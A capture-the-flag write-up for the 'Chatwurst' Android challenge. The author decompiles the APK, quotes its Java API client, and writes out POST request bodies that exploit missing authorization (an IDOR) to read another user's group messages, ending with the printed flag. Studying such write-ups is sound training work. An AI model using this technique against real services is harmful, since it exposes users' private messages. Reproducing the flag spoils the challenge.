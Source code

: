 # Chatwurst

Start the challenge by opening up the chatwurst.apk in jadx:
`jadx-gui`

After navigating around the files, you'll see under Source code/com/sinclustoapps.chat there's a file:
`ChatwurstClient`

This file contains the POST requests that the application uses to make users, login, make groups and join groups

```java
public static void createUser(Context context, String str, String str2, Listener listener) {
        HashMap hashMap = new HashMap();
        hashMap.put("username", str);
        hashMap.put("password", str2);
        makePostRequest(context, "http://chatwurst.ctf-league.osusec.org/create_user", new JSONObject(hashMap), listener);
    }

    public static void loginUser(Context context, String str, String str2, Listener listener) {
        HashMap hashMap = new HashMap();
        hashMap.put("username", str);
        hashMap.put("password", str2);
        makePostRequest(context, "http://chatwurst.ctf-league.osusec.org/login", new JSONObject(hashMap), listener);
    }

    public static void createGroup(Context context, String str, String str2, ArrayList<String> arrayList, Listener listener) {
        HashMap hashMap = new HashMap();
        HashMap hashMap2 = new HashMap();
        hashMap2.put("username", str);
        hashMap2.put("password", str2);
        hashMap.put("credential", hashMap2);
        int i = 0;
        while (i < 10 && i < arrayList.size()) {
            hashMap.put("user_" + Integer.toString(i), arrayList.get(i));
            i++;
        }
        makePostRequest(context, "http://chatwurst.ctf-league.osusec.org/create_group", new JSONObject(hashMap), listener);
    }

    public static void createMessage(Context context, String str, String str2, int i, String str3, Listener listener) {
        HashMap hashMap = new HashMap();
        HashMap hashMap2 = new HashMap();
        hashMap2.put("username", str);
        hashMap2.put("password", str2);
        hashMap.put("credential", hashMap2);
        hashMap.put("group_id", Integer.valueOf(i));
        hashMap.put("content", str3);
        makePostRequest(context, "http://chatwurst.ctf-league.osusec.org/create_message", new JSONObject(hashMap), listener);
    }

    public static void getGroups(Context context, String str, String str2, int i, Listener listener) {
        HashMap hashMap = new HashMap();
        HashMap hashMap2 = new HashMap();
        hashMap2.put("username", str);
        hashMap2.put("password", str2);
        hashMap.put("credential", hashMap2);
        hashMap.put("user_id", Integer.valueOf(i));
        makePostRequest(context, "http://chatwurst.ctf-league.osusec.org/get_groups", new JSONObject(hashMap), listener);
    }

    public static void getMessages(Context context, String str, String str2, int i, Listener listener) {
        HashMap hashMap = new HashMap();
        HashMap hashMap2 = new HashMap();
        hashMap2.put("username", str);
        hashMap2.put("password", str2);
        hashMap.put("credential", hashMap2);
        hashMap.put("group_id", Integer.valueOf(i));
        makePostRequest(context, "http://chatwurst.ctf-league.osusec.org/get_messages", new JSONObject(hashMap), listener);  
}
```

The functions we are interested in with this app are the getMessages and getGroups functions since we want to be able to read the messages that are in a certain group.

First we must create a user so that we are able to submit requests with our credentials.
In the createUser function, it sends a POST request to: http://chatwurst.ctf-league.osusec.org/create_user
The content in the request consists of a username and password, so I created a POST request in https://reqbin.com 
```
URL: http://chatwurst.ctf-league.osusec.org/create_user
Content: {"username":"balll", "password":"test"}
```
Next we see that the getGroups function uses a username and password hashmap as a credential then a user_id to get the groups that the user is affiliated with. I assumed the user_id for the FizzbuzzMcFlurry account was a low number so I chose 1 as the user_id:
```
URL: http://chatwurst.ctf-league.osusec.org/get_groups
Content: {"credential":{"username":"ball","password":"test"}, "user_id": 1}
```

After recieving the group list of the user, I found there was a group with a bunch of users: Group 9
So the next step was to read the messages from the group. That's where the getMessages function comes along.
The getMessages function sends a POST request to http://chatwurst.ctf-league.osusec.org/get_messages with the credentials and a group id. So I created another POST request with this info.

```
URL: http://chatwurst.ctf-league.osusec.org/get_messages
Content: {"credential":{"username":"ball","password":"test"}, "group_id": 9}
```
This returned a list of all the messages in the group. Inside this message was the flag.

osu{cH4TWUrst_m0RE_L1KE_wUrSt_ch47}
